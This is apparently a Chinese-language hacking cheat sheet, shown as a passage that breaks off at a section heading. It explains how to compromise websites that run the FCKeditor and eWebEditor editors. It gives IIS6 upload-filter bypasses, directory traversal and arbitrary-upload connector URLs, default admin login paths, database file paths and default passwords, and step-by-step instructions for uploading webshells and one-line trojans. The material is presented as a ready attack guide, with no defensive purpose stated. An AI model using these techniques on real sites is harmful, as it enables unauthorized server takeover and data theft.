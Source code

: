 	※不过空格只支持win系统 *nix是不支持的[1.php和1.php+空格是2个不同的文件]Note:http://pstgroup.blogspot.com/2007/05/tipsfckeditor.html
	FCKeditor 文件上传“.”变“_”下划线的绕过方法（二）
	影响版本:=>2.4.x的最新版已修补脆弱描述:由于Fckeditor对第一次上传123.asp;123.jpg 这样的格式做了过滤。也就是IIS6解析漏洞。上传第一次。被过滤为123_asp;123.jpg 从而无法运行。
	但是第2次上传同名文件123.asp;123.jpg后。由于”123_asp;123.jpg”已经存在。
	文件名被命名为123.asp;123(1).jpg …… 123.asp;123(2).jpg这样的编号方式。
	所以。IIS6的漏洞继续执行了。如果通过上面的步骤进行测试没有成功，可能有以下几方面的原因：
	1.FCKeditor没有开启文件上传功能，这项功能在安装FCKeditor时默认是关闭的。如果想上传文件，FCKeditor会给出错误提示。
	2.网站采用了精简版的FCKeditor，精简版的FCKeditor很多功能丢失，包括文件上传功能。
	3.FCKeditor的这个漏洞已经被修复。
	FCKeditor 新闻组件遍历目录漏洞
	影响版本:Aspx与JSP版FCKeditor脆弱描述：如何获得webshell请参考上文“TYPE自定义变量任意上传文件漏洞”
	攻击利用:
	修改CurrentFolder参数使用 ../../来进入不同的目录
	/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../..%2F&NewFolderName=aspx.asp
	根据返回的XML信息可以查看网站所有的目录。
	/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=%2F
	/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=&CurrentFolder=%2F
	TYPE自定义变量任意上传文件漏洞
	影响版本: 较早版本
	脆弱描述：通过自定义Type变量的参数，可以创建或上传文件到指定的目录中去，且没有上传文件格式的限制。攻击利用:
	/FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.asp
	打开这个地址就可以上传任何类型的文件了，Shell上传到的默认位置是:
	http://www.xxxx.com/UserFiles/all/1.asp
	Type=all 这个变量是自定义的,在这里创建了all这个目录,而且新的目录没有上传文件格式的限制.比如输入:
	/FCKeditor/editor/filemanager/browser/default/browser.html?Type=../&Connector=connectors/asp/connector.asp
	网马就可以传到网站的根目录下.Note:如找不到默认上传文件夹可检查此文件:
	fckeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
 #### eWebEditor
	eWebEditor 基础知识
	默认后台地址：
	/ewebeditor/admin_login.asp
	/WebEdior/admin/login.aspx
	建议最好检测下admin_style.asp文件是否可以直接访问默认数据库路径：
	[PATH]/db/ewebeditor.mdb
	[PATH]/db/db.mdb
	[PATH]/db/%23ewebeditor.mdb
	默认密码：
	admin/admin888 、 admin/admin、 admin/123456 、admin/admin9991、点击“样式管理”—可以选择新增样式，或者修改一个非系统样式，将其中图片控件所允许的上传类型后面加上|asp、|asa、|aaspsp或|cer，只要是服务器允许执行的脚本类型即可，点击“提交”并设置工具栏—将“插入图片”控件添加上。而后—预览此样式，点击插入图片，上传WEBSHELL，在“代码”模式中查看上传文件的路径。
	2、当数据库被管理员修改为asp、asa后缀的时候，可以插一句话木马服务端进入数据库，然后一句话木马客户端连接拿下webshell
	3、上传后无法执行？目录没权限？帅锅你回去样式管理看你编辑过的那个样式，里面可以自定义上传路径的！！！
	4、设置好了上传类型，依然上传不了麽？估计是文件代码被改了，可以尝试设定“远程类型”依照6.0版本拿SHELL的方法来做（详情见下文↓），能够设定自动保存远程文件的类型。
	5、不能添加工具栏，但设定好了某样式中的文件类型，怎么办？↓这么办！
	(请修改action字段)
	Action.html
	6、需要突破上传文件类型限制么？Come here! —>> 将图片上传类型修改为“aaspsp;”(不含引号)，将一句话shell文件名改为“1.asp;”(不含引号)并上传即可。—>本条信息来源：微笑刺客
	eWebEditor 可下载数据库，但密文解不开
	脆弱描述：
	当我们下载数据库后查询不到密码MD5的明文时，可以去看看webeditor_style(14)这个样式表，看看是否有前辈入侵过 或许已经赋予了某控件上传脚本的能力，构造地址来上传我们自己的WEBSHELL.
	攻击利用:
	比如 ID=46 s-name =standard1构造 代码: ewebeditor.asp?id=content&style=standardID和和样式名改过后
	ewebeditor.asp?id=46&style=standard1
	eWebEditor遍历目录漏洞